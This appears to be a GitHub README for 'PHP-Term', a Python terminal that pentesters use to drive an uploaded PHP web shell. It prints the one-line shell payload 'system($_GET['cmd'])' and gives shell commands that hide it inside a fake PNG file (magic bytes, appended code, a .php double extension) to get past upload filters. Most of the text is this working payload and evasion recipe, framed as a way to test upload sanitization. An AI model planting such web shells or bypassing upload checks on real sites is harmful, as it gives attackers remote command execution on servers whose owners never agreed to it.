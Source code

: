 # PHP-Term
![phpterm](https://github.com/user-attachments/assets/3930a006-4bf9-4257-bd3c-8fef646412b2)

A terminal for penetration testers, to connect to an uploaded php payload. (Made with Python).
The payload itself is one simple PHP code line to give the tester a remote shell through unsanitized uplaod features of a website.
It looks like this:
```
<?php system(\$_GET['cmd']); ?>"
```

To further test for sanitized uploads you can use this to create fake PNG files.
E. x.:
Create an empty PNG formatted file:
```
printf "\x89PNG\r\n\x1a\n" > payload.png
```

Append PHP-Payload:
```
echo "<?php system(\$_GET['cmd']); ?>" >> payload.png
```

Give it a PHP alias:
```
mv payload.png payload.png.php
```

This will also work with different file formats and might help you to sanitize the uploads properly.
